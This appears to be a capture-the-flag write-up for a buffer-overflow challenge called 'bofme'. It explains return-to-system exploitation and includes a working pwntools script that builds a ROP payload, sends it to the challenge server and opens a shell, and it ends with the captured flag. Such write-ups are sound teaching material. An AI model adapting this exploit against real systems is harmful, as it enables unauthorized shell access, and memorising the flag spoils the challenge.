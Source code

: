 ![](../images/bofme1.png)
In this challenge, we are been given an ELF file, which is vulnerable to BOF.
``bash
$ ./bofme
a little harder this timeaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
zsh: segmentation fault (core dumped)  ./bofme
``
after analyzing the file with gdb gef, 
i undersood that i need to make **return2system**
# return2system
is a type of exploitation on which , hacker exploit BOF vuln and trigger the vuln application to call system fucntion with 
some string like /bin/bash
system('/bin/bash')
<br> after the app call this function, we can get the shell  and exploit the remote server.
<br> in order to success in this job, we need to fill some condition
- the programme must not have PIE protection. otherwise  we can't fill the second condition
- we need to get the address of system
- we need to get the address of sum strings which we must use as system function param
- we need to get 'ret' gadget  in order to make the program return to the address of 'system'
- calculus the offset to get the rip.

  ```python
  from pwn import *

  exe = "./bofme" # replace by your binary
  elf = context.binary = ELF(exe)
  context.log_level = 'debug'
  ############################## to be replaced###############
  offset = 40 # to be replaced
  ret_addr = 0x00000000004004d1 # to be replaced 
  system_addr = elf.symbols['do_system'] #plt system address
  bin_sh_addr = 0x400744 #  0x7ffff7f5404f 
  ############################################################

  payload = flat({offset: [ ret_addr,  system_addr,  bin_sh_addr]})
  with open("payload.txt", "bw") as f:
    f.write(payload)

  #ps = process(exe) # or use remote
  ps = remote('0.cloud.chals.io', 27380)
  #22ps.sendlineafter('time',payload)
  #print(dir(ps))
  ps.sendlineafter(b'time', payload)
  ps.interactive()
```
<br>
<br>
![](../images/bofme.png)

<br>
#flag: flag{getting_better_at_hacking_binaries_i_see...}
